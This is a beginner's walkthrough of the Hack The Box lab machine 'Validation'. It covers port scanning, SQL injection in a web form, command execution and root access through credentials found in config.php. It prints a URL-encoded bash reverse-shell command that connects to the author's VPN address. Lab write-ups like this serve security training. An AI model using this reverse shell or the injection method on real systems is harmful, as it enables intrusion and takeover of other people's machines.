 # Validation

This is my write-up for the machine called **Validation** located at: [https://app.hackthebox.com/machines/Validation](https://app.hackthebox.com/machines/Validation).&#x20;

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

rustscan: rustscan -a 10.10.11.116

![](<../../.gitbook/assets/image (349) (1) (1).png>)

Going to port 80, we see this page:

![](<../../.gitbook/assets/image (338) (1) (1) (1).png>)

On Hack The Box, I got a hint from one of the tags from the machine:

![](<../../.gitbook/assets/image (352) (1) (1).png>)

It seems that I need to run some type of SQL Injection on the page. After trying a bunch of SQL queries, I ended up running an nmap scan on the machine, since according to the walk-through, I had missed a bunch of open ports using rust scan:

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1).png>)

After I got stuck, I found [this write-up](https://solomon-sec.com/hack-the-box-validation-walkthrough/) that basically made it understand where the vulnerability was:

![](<../../.gitbook/assets/image (345) (1) (1) (1).png>)

I then got the following output:

![](<../../.gitbook/assets/image (342) (1) (1).png>)

This showed me that this is vulnerable to SQL Injection. Viewing the same write-up, I then changed the parameters to then submit to the website:

![](<../../.gitbook/assets/image (351) (1) (1).png>)

![](<../../.gitbook/assets/image (335) (1) (1) (1).png>)

I then got stuck again and then watched [this video](https://youtu.be/dFKsSYVeVbI) that assisted a bit more in the understanding of what I was messing up on. I found out that I had to run the command to get a shell on the system:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1).png>)

After I ran this command, I was able to run commands on the system:

![](<../../.gitbook/assets/image (328) (1) (1).png>)

Apparently the IP Addresses of the VPN you are using on HTB can change, which was something I did not know. When I ran **ifconfig**, I understood why my reverse shell command was not working when I tried it. In any case, I got the reverse shell by running the following command (recommended by the official write-up and modified to work for me):

`bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.14/1234+0>%261'`

In order to get this to work though, you have to change your request from GET to POST, which can be done by clicking on the button below:

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1).png>)

You can then submit the command, as seen in the image above. After I had the shell, the first thing I did was find the user.txt file:

![](<../../.gitbook/assets/image (344) (1) (1).png>)

I was trying to find a way to upload **linpeas.sh** or get a way to see what access I had, but I ended up getting nowhere. On the official write-up, the credentials I had seen earlier in config.php, were the credentials for the root user:

![](<../../.gitbook/assets/image (329) (1) (1).png>)

I was then able to get the flag using the root access.
